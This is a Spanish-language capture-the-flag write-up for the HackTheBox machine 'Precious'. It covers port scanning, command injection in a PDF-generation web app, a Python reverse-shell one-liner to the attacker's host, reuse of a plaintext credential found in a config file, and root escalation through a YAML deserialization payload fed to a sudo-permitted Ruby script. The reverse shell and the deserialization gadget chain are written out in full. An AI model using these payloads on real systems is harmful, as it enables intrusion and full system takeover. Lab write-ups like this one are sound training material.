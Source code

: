 ```yaml
---
title: "Precious - HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: https://user-images.githubusercontent.com/63744631/221410290-68454d65-cce6-465a-8eaa-80437dcf79a6.png
  teaser_home_page: true
  icon: assets/images/icons/HackTheBox-icon.png
categories:
  - HackTheBox
  - Easy
  - Writeup
tags:
  - Web
  - yml
  - sudo

---
```

<img src="./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/Precious.png" alt="Precious" style="zoom: 33%;" align="center" />

# Enumeración

Como siempre realizamos una pequeña enumeración rápida con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -sS  -T5 --min-rate 5000 -p- 10.129.228.98 -vvv -oG allports
```

Esta primera busqueda la utilizaremos para buscar rapidamente puertos abiertos para realizar un escaneo mas profundo.

```bash
nmap -sCV -T5 --min-rate 5000 -p22,80 10.129.228.98 -oN openports
```

Como podemos ver en el resultado de la busqueda tenemos una redirección en el puerto 80 por lo que si intentamos acceder desde el navegador no tendremos resolución DNS.

```bash
 # Nmap 7.93 scan initiated Sun Feb 26 11:29:01 2023 as: nmap -sCV -T5 --min-rate 5000 -p22,80 -oN openports 10.129.228.98
 Nmap scan report for 10.129.228.98
 Host is up (0.039s latency).

 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
 | ssh-hostkey:
 |   3072 845e13a8e31e20661d235550f63047d2 (RSA)
 |   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
 |_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
 80/tcp open  http    nginx 1.18.0
 |_http-server-header: nginx/1.18.0
 |_http-title: Did not follow redirect to http://precious.htb/
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Sun Feb 26 11:29:11 2023 -- 1 IP address (1 host up) scanned in 9.32 seconds
```

Para acceder se puede modificar el fichero hosts para que la resolución se realice en nuestro propio equipo y ganar acceso a la pagina.

![Webpage1](./../assets/images/images/Machines/2023-02-25-Precious-HackTheBox-Writeup/image-20230226114005541.png)

Creamos un servidor de python3 en nuestro equipo para que la maquina pueda tener una URL funcional de la cual tendremos control. Si escribimos la IP y puerto de la maquina podremos acceder a este desde la pagina web y crear archivos pdf.

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [26/Feb/2023 11:47:12] "GET / HTTP/1.1" 200 -
10.129.228.98 - - [26/Feb/2023 11:47:58] "GET /smbscan HTTP/1.1" 200 -
```

![Website2](./../assets/images/images/Machines/2023-02-25-Precious-HackTheBox-Writeup/image-20230226115058616.png)

Podemos mirar dentro de las propiedades del archivo desde el propio navegador y se puede ver la aplicación con la que se ha creado.

![Propiedadespdf](./../assets/images/images/Machines/2023-02-25-Precious-HackTheBox-Writeup/image-20230226115632401.png)

Una vez conseguido el nombre de la aplicación podemos buscar si la versión que corre en el servidor tiene algun exploit, haciendo una busqueda en internet podemos encontrar que es vulnerable a command injection. Podemos hacer una pequeña prueba haciendo un sleep 5 si el servidor se demora en devolver la pagina web habremos confirmado que es vulnerable.

```python
http://10.10.14.67:8000/?name=#{'%20`sleep 5`'}
```

Al realizar la prueba la pagina tarda en devolvernos el pdf por lo que ya sabemos que es vulnerable a command injection buscando podemos entonces intentar cargar un exploit en este caso vamos a probar la oneline revershell de python3

```python
http://10.10.14.67/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Una vez realizado el exploit tendremos acceso a una bash con el usuario ruby.

```bash
❯ sudo nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.228.98] 50120
$ whoami
whoami
ruby
$
```

El usuario que hemos adquirido haciendo la explotación no nos permite acceder a ninguna flag por lo que tendremos que realizar una escalada de privilegios para adquirirlas.

## Escalada de privilegios

Dentro de la maquina con ruby no podremos hacer mucho por lo que deberemos de investigar la maquina por si hubiera alguna contraseña en claro, buscando por el directorio web no se encuentra nada pero en la carpeta /home/ruby podemos encontrar una carpeta oculta .bundle el cual contiene la contraseña de henry.

```bash
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:QXDXDXDXDXDXDXDXDXDH"
$
```

Con esta contraseña podemos acceder por SSH ya que comprobamos en la enumeración de la maquina que teniamos el puerto 22 abierto. 

```bash
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
f--------------------------3
henry@precious:~$
```

### Escalada a root

Para finalizar la maquina haremos la escalada a root lo primero que haremos sera comprobar si henry tiene algun privilegio de sudo. Podemos encontrar que puede utilizar los siguientes comandos:

```ruby
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Con este dato podemos ver que acciones realiza el archivo update_dependencies.rb

```ruby
# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Como podemos ver en el archivo se utiliza el archivo dependencies.yml de la ruta en la que nos encontremos al no estar sanitizada y trabajar con una ruta relativa podemos utilizarlo para realizar nuestro ataque.

[Blind Remote Code Execution through YAML Deserialization (stratumsecurity.com)](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

En concreto vamos a estar usando la ejecución remota de comandos que tenemos en el enlace de arriba. Generamos el archivo dependencies.yml pero en vez de realizar el sleep 600 que muestra enla poc vamos a utilizar el comando id para comprobar que se ejecuta como root.

#### dependencies.yml

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
```

Como vemos hemos ejecutado el comando que se encuentra en el campo git_set como root por lo que podemos spawnear una shell gracias a esto. Solo deberemos de cambiar la linea mencionada por /bin/bash -i

```bash
root@precious:/home/henry# cat /root/root.txt ; cat user.txt
4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX3
root@precious:/home/henry#
```

